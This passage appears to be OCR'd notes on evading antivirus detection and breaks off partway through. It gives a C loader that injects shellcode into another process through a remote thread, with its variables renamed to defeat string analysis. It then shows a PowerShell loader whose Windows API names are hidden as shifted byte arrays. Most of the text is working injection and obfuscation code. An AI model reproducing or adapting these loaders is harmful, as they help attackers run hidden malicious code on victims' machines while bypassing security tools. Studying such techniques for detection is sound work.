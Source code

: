 
<u>Changing the handle and pointer names</u>:

```c
#include "windows.h"

int main(int argc, char* argv[])
{
	unsigned char awoler[] = "";

	HANDLE awerfu;
	HANDLE rwfhbf;
	PVOID iauwef;

	awerfu = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	iauwef = VirtualAllocEx(awerfu, NULL, sizeof awoler, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(awerfu, iauwef, awoler, sizeof awoler, NULL);
	rwfhbf = CreateRemoteThread(awerfu, NULL, 0, (LPTHREAD_START_ROUTINE)iauwef, NULL, 0, NULL);
	CloseHandle(awerfu);

	return 0;
}
```

	- With this, strings are not visible from String analysis anymore.


<u>Interpreted Language String Obfuscation</u>:

```powershell
Set-StrictMode -Version 2
[Byte[]] $Ait1m = @(0x3d, 0x50, 0x51, 0x57, 0x50, 0x4e, 0x5f, 0x50, 0x4f, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50)
[Byte[]] $ahv3I = @(0x34, 0x59, 0x38, 0x50, 0x58, 0x5a, 0x5d, 0x64, 0x38, 0x5a, 0x4f, 0x60, 0x57, 0x50)
[Byte[]] $Moo5y = @(0x38, 0x64, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50, 0x3f, 0x64, 0x5b, 0x50)
[Byte[]] $ooR5o = @(0x2e, 0x57, 0x4c, 0x5e, 0x5e, 0x17, 0x0b, 0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e, 0x17, 0x0b, 0x3e, 0x50, 0x4c, 0x57, 0x50, 0x4f, 0x17, 0x0b, 0x2c, 0x59, 0x5e, 0x54, 0x2e, 0x57, 0x4c, 0x5e, 0x5e, 0x17, 0x0b, 0x2c, 0x60, 0x5f, 0x5a, 0x2e, 0x57, 0x4c, 0x5e, 0x5e)
[Byte[]] $Reo5o = @(0x3d, 0x60, 0x59, 0x5f, 0x54, 0x58, 0x50, 0x17, 0x0b, 0x38, 0x4c, 0x59, 0x4c, 0x52, 0x50, 0x4f)
[Byte[]] $Reib3 = @(0x3d, 0x3f, 0x3e, 0x5b, 0x50, 0x4e, 0x54, 0x4c, 0x57, 0x39, 0x4c, 0x58, 0x50, 0x17, 0x0b, 0x33, 0x54, 0x4f, 0x50, 0x2d, 0x64, 0x3e, 0x54, 0x52, 0x17, 0x0b, 0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e)
[Byte[]] $Thah8 = @(0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e, 0x17, 0x0b, 0x33, 0x54, 0x4f, 0x50, 0x2d, 0x64, 0x3e, 0x54, 0x52, 0x17, 0x0b, 0x39, 0x50, 0x62, 0x3e, 0x57, 0x5a, 0x5f, 0x17, 0x0b, 0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57)
[Byte[]] $ii5Ie = @(0x34, 0x59, 0x61, 0x5a, 0x56, 0x50)
[Byte[]] $KooG5 = @(0x38, 0x54, 0x4e, 0x5d, 0x5a, 0x5e, 0x5a, 0x51, 0x5f, 0x19, 0x42, 0x54, 0x59, 0x1e, 0x1d, 0x19, 0x40, 0x59, 0x5e, 0x4c, 0x51, 0x50, 0x39, 0x4c, 0x5f, 0x54, 0x61, 0x50, 0x38, 0x50, 0x5f, 0x53, 0x5a, 0x4f, 0x5e)
[Byte[]] $io9iH = @(0x32, 0x50, 0x5f, 0x3b, 0x5d, 0x5a, 0x4e, 0x2c, 0x4f, 0x4f, 0x5d, 0x50, 0x5e, 0x5e)
[Byte[]] $Qui5i = @(0x32, 0x50, 0x5f, 0x38, 0x5a, 0x4f, 0x60, 0x57, 0x50, 0x33, 0x4c, 0x59, 0x4f, 0x57, 0x50)
[Byte[]] $xee2N = @(0x56, 0x50, 0x5d, 0x59, 0x50, 0x57, 0x1e, 0x1d)
[Byte[]] $AD0Pi = @(0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57, 0x2c, 0x57, 0x57, 0x5a, 0x4e)
[Byte[]] $ahb3O = @(0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57, 0x3b, 0x5d, 0x5a, 0x5f, 0x50, 0x4e, 0x5f)
[Byte[]] $yhe4c = @(0x2E, 0x5D, 0x50, 0x4C, 0x5F, 0x50, 0x3F, 0x53, 0x5D, 0x50, 0x4C, 0x4F)

function Get-Robf ($b3tz) {
    $aisN = [System.Byte[]]::new($b3tz.Count)
    for ($x = 0; $x -lt $aisN.Count; $x++) {
       $aisN[$x] = ($b3tz[$x] + 21)
```